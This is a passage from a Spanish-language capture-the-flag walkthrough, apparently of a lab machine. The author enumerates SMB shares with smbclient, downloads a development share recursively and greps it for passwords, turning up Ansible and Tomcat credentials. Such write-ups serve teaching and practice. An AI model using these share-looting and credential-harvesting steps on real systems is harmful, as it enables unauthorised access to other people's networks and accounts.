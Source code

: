 Ya que el puerto **445** está abierto vamos a enumerarlo.
```bash
smbclient -L \\10.10.11.222
Password for [WORKGROUP\cahoner]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Department Shares Disk      
        Development     Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.222 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
Vemos "Department Shares" y "Development", en el primero nos faltan privilegios, así que continuamos la enumeración en "Development".
```bash
smbclient -N \\\\10.10.11.222\\Development
```
Hay un directorio Automation con mucha información dentro, así que procedemos a descargarla toda.

Estando conectados con **smbclient** ejecutamos los siguientes comandos para la descarga.
```bash
mask ""
recurse ON
prompt OFF
mget *
```

En el directorio **PWM** encuentro un archivo con credenciales, las pruebo, pero no funcionan (era evidente), pero ahí las tenemos para el futuro.
```bash
cat ansible_inventory
File: ansible_inventory
   1   │ ansible_user: administrator
   2   │ ansible_password: Welcome1
   3   │ ansible_port: 5985
   4   │ ansible_connection: winrm
   5   │ ansible_winrm_transport: ntlm
   6   │ ansible_winrm_server_cert_validation: ignore
```

Esto es lo que yo suelo hacer para buscar información en muchos ficheros a la vez, y como podréis comprobar suele dar resultado.
```bash
grep -riE 'password'

templates/tomcat-users.xml.j2:<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
templates/tomcat-users.xml.j2:<user username="robot" password="T0mc@tR00t" roles="manager-script"/>
README.md:- pwm_root_mysql_password: root mysql password, will be set to a random value by default.
README.md:- pwm_pwm_mysql_password: pwm mysql password, will be set to a random value by default.
README.md:- pwm_admin_password: pwm admin password, 'password' by default.
defaults/main.yml:pwm_admin_password: !vault |
defaults/main.yml:ldap_admin_password: !vault |
ansible_inventory:ansible_password: Welcome1
```
